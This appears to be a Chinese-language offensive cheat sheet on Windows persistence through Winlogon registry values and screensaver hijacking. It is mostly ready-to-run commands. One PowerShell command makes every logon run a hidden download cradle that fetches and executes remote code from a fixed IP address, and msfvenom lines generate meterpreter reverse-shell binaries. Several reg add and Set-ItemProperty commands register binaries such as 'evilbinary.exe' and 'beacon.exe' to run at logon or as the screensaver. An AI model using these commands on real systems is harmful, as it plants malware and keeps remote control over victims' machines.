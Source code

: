  #### 登录初始化
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon下添加Userinit值
	>Powershell.exe Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,c:\muma.exe"
	计算机\HKEY_CURRENT_USER\Environment
	创建键值UserInitMprLogonScript值为c:\muma.exe
	&
	Powershell实现：
	>Set-ExecutionPolicy RemoteSigned 
	保存ps1执行
	Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,powershell.exe -nop -w hidden -c $w=new-object net.webclient;$w.proxy=[Net.WebRequest]::GetSystemWebProxy();$w.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $w.downloadstring('http://192.168.2.11:8080/kaMhC1');"
	# powershell反弹shell的payload参照msf中的web_delivery模块

	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

	>reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
	>reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
	>Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
	>Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
 #### 屏幕保护程序
	计算机\HKEY_CURRENT_USER\Control Panel\Desktop
	SCRNSAVE.EXE - 默认屏幕保护程序，改为恶意程序(设置备份)
	ScreenSaveActive - 1表示屏幕保护是启动状态，0表示表示屏幕保护是关闭状态
	ScreenSaverTimeout - 指定屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900（15分钟）

	>reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f